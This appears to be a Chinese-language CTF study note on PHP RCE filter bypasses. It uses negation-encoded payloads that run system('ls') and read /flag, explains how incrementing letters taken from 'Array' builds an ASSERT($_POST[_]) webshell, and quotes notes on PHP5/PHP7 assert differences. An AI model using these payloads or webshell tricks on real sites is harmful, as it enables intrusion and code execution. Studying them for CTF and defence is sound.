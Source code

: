 

### negateRce(取反)

这个也是直接跑脚本了，

```php
#system("ls")
(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);
#cat /flag
(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%9E%98);
```



### 自增

```php
<?php
$bb = "A";
echo $bb."\n";
// A
$bb++;
echo $bb;
//B
```

在这个例子中，我们推测可以知道如果我们拿到“A”那意味着我们可以通过自增操作，我们就可以获得A-Z，26个字母，经过学习之后了解到

思路就是上面的逻辑，那我们下一步就是寻找接入口，这里利用php类型`"Array"`,正好有`A`和`a`

```php
<?php
echo ''.[]
// Array
```

就这样按部就班的就可以构造rce和实现webshell，脚本见文末脚本<p神自增webshell>

这里我对这个神奇代码的编写角度感到惊叹，下面分析核心的几句

```php
<?php
$_=[];
$_=@"$_";
//@"$_"，它实际上是将数组 $_ 转换为字符串,PHP中,数组转换为字符串时会返回字符串 "Array"
$_=$_['!'=='@'];
//'!'=='@' 是一个布尔表达式，结果为 false，在 PHP 中 false 等价于 0
//所以这里实现的是$_[0]，即截取Array中的A
echo $_;
//A
```

这个脚本最终执行的是`ASSERT($_POST[_])`，PHP中函数对大小写不敏感，所以不用提取a

> 摘自：[学安全的小白](https://www.cnblogs.com/pursue-security/p/15404150.html)
>
> 一个很重要的函数就是`assert`，但在php5的版本和php7的版本中，它是有一些区别的，我们上面的测试都是基于php5进行的，在php5中assert是一个函数，我们可以通过`$f='assert';$f(...);`这样的方法来动态执行任意代码，在php7中，assert不再是函数，变成了一个语言结构（类似eval），不能再作为函数名动态执行代码，但是在php7中，我们可以使用($a)()这种方法来执行命令，那相当于我们对phpinfo取反后就可以直接执行了，也可以选择file_put_contents()来写入shell，在php5中这样是不行的：
